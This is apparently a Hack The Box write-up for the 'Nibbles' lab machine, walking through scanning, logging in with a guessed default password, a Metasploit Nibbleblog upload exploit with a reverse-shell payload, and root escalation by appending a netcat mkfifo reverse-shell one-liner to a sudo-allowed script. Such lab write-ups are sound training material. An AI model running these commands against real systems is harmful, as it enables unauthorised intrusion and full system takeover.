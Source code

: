 ```yaml
---
title: Nibbles HTB Writeup
author: 0xGamer
date: 2021-01-25 9:16:00 
categories: [Walkthru, Writeup, Hackthebox]
---
```


This post contains the walkthru of the Nibbles box from hackthebox. This box has been suggested as OSCP like.

## We will start with an nmap.

### Nmap

```bash
[★]$ nmap -sC -sV -v 10.10.10.75
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-25 04:20 UTC
NSE: Loaded 151 scripts for scanning.
NSE: Script Pre-scanning.
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### We see that port 80 (Webpage) and port 22 (SSH) are open.

 #### Lets visit the webpage.

![image-20210125095401157](https://raw.githubusercontent.com/hackarmour/hackthebox/main/assets/nibbles1.png)

#### We see a page with only Hello world! written on it... Lets check the source code

#### ![image-20210125095509153](https://raw.githubusercontent.com/hackarmour/hackthebox/main/assets/nibbles2.png)

### We see a /nibbleblog... Lets visit it 

![image-20210125095624746](https://raw.githubusercontent.com/hackarmour/hackthebox/main/assets/nibbles3.png)

### I checked the stuff but nothing interesting here on those categories and pages. Lets run  gobuster against it.

```bash 
[★]$ gobuster dir -u=10.10.10.75/nibbleblog -w=/usr/share/dirb/wordlists/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.75/nibbleblog
[+] Threads:        10
[+] Wordlist:       /usr/share/dirb/wordlists/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/25 04:33:04 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/admin (Status: 301)
/admin.php (Status: 200)
/content (Status: 301)
/index.php (Status: 200)
/languages (Status: 301)
/plugins (Status: 301)
/README (Status: 200)
/themes (Status: 301)
===============================================================
2021/01/25 04:34:10 Finished
===============================================================
```

#### Hmm, admin.php is interesting...

![image-20210125100619910](https://raw.githubusercontent.com/hackarmour/hackthebox/main/assets/nibbles4.png)

#### Lets try the common usernames and passwords like, admin:admin or nibbles:nibbles or admin:nibbles or nibbles:admin	

#### We see that the username admin and the password nibbles work...

![image-20210125102016119](https://raw.githubusercontent.com/hackarmour/hackthebox/main/assets/nibbles5.png)

#### We get logged in but there is nothing interesting here

### Lets use searchsploit to look for an exploit on nibbleblogs

```bash
[★]$ searchsploit nibbleblog
---------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
Nibbleblog 3 - Multiple SQL Injections                                | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)                 | php/remote/38489.rb
---------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

#### Lets start up msfconsole and use the Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)   exploit.

 ###### We are going to use this command in msfconsole to select the exploit

```bash
use exploit/multi/http/nibbleblog_file_upload
```

##### Now lets use these commands to select the payload and options

```bash
msf6 exploit(multi/http/nibbleblog_file_upload) > set payload generic/shell_reverse_tcp
```

```bash
msf6 exploit(multi/http/nibbleblog_file_upload) > set rhost 10.10.10.75
```

```bash
msf6 exploit(multi/http/nibbleblog_file_upload) > set targeturi /nibbleblog/
```

```bash
msf6 exploit(multi/http/nibbleblog_file_upload) > set username admin
```

```bash
msf6 exploit(multi/http/nibbleblog_file_upload) > set password nibbles
```

```bash
msf6 exploit(multi/http/nibbleblog_file_upload) > set lhost tun0
```

```
msf6 exploit(multi/http/nibbleblog_file_upload) > run
```

### Now you can see that we got shell as nibbler

![image-20210125103315915](https://raw.githubusercontent.com/hackarmour/hackthebox/main/assets/nibbles6.png)

#### Now lets use this command to spawn a bash shell

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### Great now we can cd /home/nibbler and cat the user flag.

#### Lets run sudo -l to check our permissions

```
nibbler@Nibbles:/home/nibbler$ sudo -l
sudo -l
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

#### Hmm we can run  monitor.sh... Let unzip the personal folder so we can access the monitor file

```
nibbler@Nibbles:/home/nibbler$ ls
personal.zip  user.txt
nibbler@Nibbles:/home/nibbler$ unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh  
nibbler@Nibbles:/home/nibbler$ cd personal/stuff
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls
monitor.sh

```

#### Lets check the monitor.sh file...

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ head monitor.sh
                  ####################################################################################################
                  #                                        Tecmint_monitor.sh                                        #
                  # Written for Tecmint.com for the post www.tecmint.com/linux-server-health-monitoring-script/      #
                  # If any bug, report us in the link below                                                          #
                  # Free to use/edit/distribute the code below by                                                    #
                  # giving proper credit to Tecmint.com and Author                                                   #
                  #                                                                                                  #
                  ####################################################################################################
#! /bin/bash
# unset any variable which system may be using

```

#### Lets modify the monitor.sh to get a reverse shell...

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 1234 > /tmp/f" >> monitor.sh
```

#### Now lets listen on port 1234 with netcat on a new terminal

```
[★]$ nc -nvlp 1234
listening on [any] 1234 ...

```

#### Now lets run the monitor.sh file on the box.

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo ./monitor.sh
```

#### Now can check the other terminal and we can see we got root.

```
# whoami && id && cat /root/root.txt
root
uid=0(root) gid=0(root) groups=0(root)
c8a26e...
```



# Thank you!

